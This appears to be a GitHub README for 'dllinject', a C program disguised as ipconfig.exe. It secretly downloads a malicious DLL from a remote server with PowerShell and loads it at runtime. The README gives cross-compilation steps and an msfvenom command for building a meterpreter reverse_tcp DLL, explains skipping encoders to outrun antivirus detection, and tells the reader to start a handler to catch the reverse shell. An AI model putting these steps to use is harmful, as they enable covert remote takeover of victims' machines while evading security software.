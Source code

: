 This C code is cross-compiled using i686-w64-mingw32-gcc , on a Linux <hostname> 4.18.0-kali2-amd64 #1 SMP Debian 4.18.10-2kali1 (2018-10-09) x86_64 GNU/Linux System.

Thus you would require i686-w64-mingw32-gcc compiler to compile Windows PE32 executables on Linux.

loadDLL() functionality :

The code basically invokes a powershell command (Invoke-WebRequest) to download a malicious DLL hosted in a remote webserver, while invoking an "ipconfig.exe" command.
Thus to the victim, the download of the malicious dll is virtually invisible.

The code loads the malicious dll in the runtime and pushes it in the stack, for execution.

main() function:

1. Invokes the ipconfig.exe 
2. Calls the loadDLL(); function.

Dependencies : 
1. sudo apt-get update
2. apt-get install mingw-w64

Compilation:

i686-w64-mingw32-gcc dllinject.c -o ipconfigg.exe

DLL generation :
msfvenom -p windows/meterpreter/reverse_tcp lhost=<your ip> lport=<desired port> -f dll -o test.dll

I have purposely not used any encoders as the process is fast enought to load the dll on runtime, before the AV software daemon runcheck detects it.

Similarly , you need to start a meterpreter reverse handler with specified parameters , to obtain the reverse shell.
# dllinject
